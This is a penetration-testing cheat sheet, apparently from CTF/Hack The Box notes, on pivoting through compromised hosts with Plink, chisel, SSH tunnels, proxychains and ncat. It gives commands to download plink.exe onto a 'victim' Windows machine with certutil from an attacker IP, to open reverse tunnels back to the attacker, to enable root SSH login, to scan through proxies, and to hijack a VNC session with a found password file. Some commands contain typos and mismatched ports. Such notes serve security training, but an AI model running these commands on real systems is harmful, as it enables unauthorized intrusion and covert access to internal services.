 - [Windows](#Windows)
- [Linux](#Linux)

# Windows

- edit /etc/ssh/sshd_config
uncomment PermitRootLogin and set as yes

#### Plink
- Download Plink.exe file

- Put plink on victim windows machine
```
certutil -urlcache -f http://[your_ip]/plink.exe plink.exe
```

- run plink on on windows machine 
plink.exe -l root -pw <pass> -R 445:127.0.0.1:445 <your_linux_ip>
  
  
#### chisel
- Download chisel
https://github.com/jpillora/chisel/releases/tag/v1.7.4


- Run chisel server on your linuxmachine: 
```
./chisel server -p 9999 --reverse -v
```

- Run chisel client on victim windows machine:
```
chisel.exe client <your_linux_ip>:9000 R:widnows_service_port:127.0.0.1:widnows_service_port

e.g:
chisel.exe client 10.10.14.49:9999 R:8888:127.0.0.1:8888
```

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Linux

#### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine

#### use squid proxy
- proxytunnel -p 192.168.0.115:3128 -d 127.0.0.1:22 -a 1234
#### e.g:
- ssh name@127.0.0.1 -p 1234






### Proxychains 
#### use squid proxy
- nano /etc/proxychains.conf
#### add:
- http 192.168.213.141 3128

#### scan ports via tunnel
- proxychain nmap -sT -p 22 127.0.0.1

#### ssh login via proxychains
- proxychains ssh name@127.0.0.1

### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine
```
ssh [username]@[victim_ip] -L [your_local_port]:127.0.0.1:[victim_service_port] 

ssh [username]@[victim_ip] -R [your_local_port]:127.0.0.1:[victim_service_port] 
```

Exploit code can be run on local machine

#### case study
##### on victim machine
- check service port *netstat -nl*
- ssh -R 4444:127.0.0.1:3306 root@192.168.100.104

##### on yours kali machine
mysql -u root -h 127.0.0.1 -P 4444

#### case study 2 (TightVNC)
```
- check ps -aux
  result: Xvnc :1 -desktop X -httpd /usr/../tightvnc/classes
- check netstat -an
  result: 127.0.0.1.5901
- port forwarding from local machine
  ssh -L 5901:127.0.0.1:5901 username@10.10.10.84
  pass password
- vncviewer 127.0.0.1:5901 -passwd secret_file_with_password
```

#### case study 3 (htb poison vnc)
```
on your machine:
ssh -L 5902:localhost:5901 charix@10.10.10.84
in second window:
vncviewer -passwd secret 127.0.0.1:5902
```

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]
  
  
